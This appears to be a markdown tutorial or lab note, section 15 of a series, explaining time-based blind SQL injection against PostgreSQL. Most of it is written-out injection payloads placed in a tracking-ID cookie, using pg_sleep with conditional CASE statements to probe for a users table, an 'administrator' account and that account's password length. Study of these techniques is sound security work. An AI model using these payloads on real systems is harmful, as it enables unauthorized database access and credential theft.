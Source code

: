 # Section 15: Time-Based Blind SQL injection

## Discovering Time-Based Blind SQLi

When there is no visible change in the web page for truthy or falsy sql injection statement, there is still a way to discover if an SQL statement
is executed by running a sleep function and checking the reponse time of the request

**Example**: Inject sleep in a request cookie

In a PostgreSQL DB engine:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||pg_sleep(10)--
```

can test multiple sleep seconds to verify

---

## Extracting Data From the Database Using a Time-Based Blind SQLi

Confirm true statements with **conditional time delays**:

```
SELECT
  CASE
    WHEN (2=2) THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
```

Should take 10 seconds to load:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=2) THEN pg_sleep(10) ELSE pg_sleep(0) END)'--
```

Should load quickly because the condition is false:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)'--
```

### Extracting Data

If we have a table that is called users, will sleep for 10 seconds

```
SELECT
  CASE
    WHEN (2=2) THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```



```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

Check if an administrator user exists:

```
SELECT
  CASE
    WHEN (username='administrator') THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

Check password length of administrator:

```
SELECT
  CASE
    WHEN (username='administrator') AND LENGTH (password)>1 THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```



---




